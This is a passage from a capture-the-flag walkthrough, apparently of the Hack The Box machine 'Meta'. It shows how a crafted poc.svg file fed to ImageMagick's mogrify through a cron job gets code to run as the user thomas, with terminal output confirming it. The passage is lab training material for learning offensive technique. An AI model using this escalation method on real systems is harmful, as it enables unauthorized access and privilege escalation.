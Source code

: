 It’s also important to note that the third to last line has a reference back to the file, `poc.svg`. I’ll need to call it that on Meta, or the exploit won’t work.

I’ll serve that file with Python, and upload it to Meta with `wget`. I can run the command as www-data and see what happens.

```

www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ mogrify -format png *.*    
sh: 1: : Permission denied
mogrify: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted

```

It created a file:

```

www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /dev/shm/.0xdf 
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

This is where I figured out that the name needed to match what was in the file. If there’s a mismatch:

```

www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ mogrify -format png *.*
mogrify: unable to open image 'poc.svg': No such file or directory @ error/blob.c/OpenBlob/3537.
mogrify: unable to open file 'poc.svg': No such file or directory @ error/msl.c/ProcessMSLScript/7839.
mogrify: non-conforming drawing primitive definition `image' @ error/draw.c/RenderMVGContent/4458.

```

It’s complaining that it can’t open `poc.svg`.

I’ll delete `/dev/shm/.0xdf`, make sure the name is correct, and wait for the minute to roll over. Once it does, `.0xdf` is back, and this time, it’s owned by thomas and the contents show it was run by thomas:

```

www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ ls -la /dev/shm/
total 3012
drwxrwxrwt  2 root     root          80 Jun  3 17:08 .
drwxr-xr-x 16 root     root        3080 Jun  3 14:40 ..
-rw-r--r--  1 thomas   thomas        54 Jun  3 17:08 .0xdf
-rwxr-xr-x  1 www-data www-data 3078592 Dec  6 15:32 pspy64 
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /dev/shm/.0xdf
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)    

```

#### Shell
